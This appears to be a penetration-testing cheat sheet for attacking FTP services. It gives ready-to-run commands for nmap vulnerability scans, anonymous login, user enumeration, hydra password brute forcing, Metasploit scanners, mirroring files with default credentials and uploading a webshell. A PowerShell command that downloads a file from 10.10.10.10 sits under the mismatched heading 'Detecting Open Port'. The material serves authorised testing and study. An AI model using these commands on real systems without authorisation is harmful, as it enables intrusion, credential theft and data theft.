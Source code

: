 USING POWERSHELL - 
------------------------------------------------------------------------------------------------------------------


#### Detecting Open Port
	
     powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\demo.txt')

**Nmap Scripts**

       nmap –script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 $ip

**Banner Grabbing**
	
        nc -nv $ip 21
 
#### Anonymous Authentication manually
````
      ftp $ip
````
#provide anonymous as username

#provide any passowrd
	
## FTP client commands

  
    Command 								    	          Description

	bye or close or quit						            Terminates an FTP connection.

	cd 							                            Changes the current working directory on the FTP host server.

	cwd									            Changes the current directory to the specified remote directory.

	dir							                            Requests a directory of files uploaded or available for download.
	
	get				                                                    Downloads a single file.

	ls										    Requests a list of file names uploaded or available for download.

	mget								            Interactively downloads multiple files.

	mput								            Interactively uploads multiple files.

	put								                    Uploads a single file.

	pwd									            Queries the current working directory.

	ren									            Renames or moves a file.
 
	site						                                   Executes a site-specific command.
	
	open									   Starts an FTP connection.

	pasv										    Tells the server to enter passive mode, in which the server waits for the client to establish a connection rather than attempting to connect to a port the client specifies.

#### Ftp User enumeration with github script

`````	
     https://raw.githubusercontent.com/pentestmonkey/ftp-user-enum/master/ftp-user-enum.pl
`````
         ftp-user-enum.pl -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt -t $ip
`````	
     ftp-user-enum.pl -M iu -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt -t $ip
`````
### Brute Forcing with hydra

	     hydra -l ftp -P password.txt ftp://$ip 
	
	     hydra -L username.txt -P password.txt ftp://$ip
	
## Metasploit Modules for FTP service

#### 1. auxiliary/scanner/ftp/anonymous
 #### 2. auxiliary/scanner/ftp/ftp_version
#### 3. auxiliary/scanner/ftp/ftp_login
#### 4. auxiliary/scanner/ftp/konica_ftp_traversal

	$  msfconsole
	
      1.Metasploit auxilliary for ftp anonymous check :

      msf6 > use auxiliary/scanner/ftp/anonymous

      msf6 auxiliary(scanner/ftp/anonymous) > set RHOSTS $ip

      msf6 auxiliary(scanner/ftp/anonymous) > run
      
  **Download All File from FTP**
    
        wget -m ftp://anonymous:anonymous@$ip
    
        wget -m --no-passive ftp://anonymous:anonymous@$ip
    
   **Uploading a binary or webshell**
      
         ftp> binary
         ftp> put file/name
      
   **Reference**
	
    	https://raw.githubusercontent.com/pentestmonkey/ftp-user-enum/master/ftp-user-enum.pl
